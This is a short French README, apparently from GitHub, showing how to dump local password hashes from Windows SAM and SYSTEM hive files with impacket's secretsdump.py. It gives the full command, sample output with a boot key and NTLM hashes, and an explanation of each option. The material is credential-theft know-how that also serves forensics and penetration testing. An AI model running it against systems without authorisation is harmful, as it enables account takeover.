 # Sam Windows

Cette outil permet de récupérer les identifications d'un système Windows, il a été integré dans le programme impacket donc l'utilisation de ce programme n'est pas très compliqué.

[![forthebadge made-with-python](https://media.giphy.com/media/Q6gPyUYrCk76g/giphy.gif)

    $ secretsdump.py -debug -sam sam_windows -system system_windows LOCAL
    Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation

    [+] Retrieving class info for JD
    [+] Unknown type 0xe
    [+] Retrieving class info for Skew1
    [+] Unknown type 0xb
    [+] Retrieving class info for GBG
    [+] Unknown type 0x8
    [+] Retrieving class info for Data
    [+] Unknown type 0x6
    [*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
    [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
    [+] Calculating HashedBootKey from SAM
    [+] NewStyle hashes is: False
    Administrator:500:NONE:NONE:::
    [+] NewStyle hashes is: False
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    [+] NewStyle hashes is: False
    Seyptoo:1000:aad3b435b51404eeaad3b435b51404ee:ee7e0b247f06ef203cf92ad55eeb2d13:::
    [*] Cleaning up... 

L'option -debug permet d'afficher des informations détaillés, l'option -sam permet de spécifier le fichier SAM, l'option -system permet de mettre le fichier système pour ensuite dump les informations d'identification et enfin l'option LOCAL permet d'analyser le fichier c'est obligatoire.
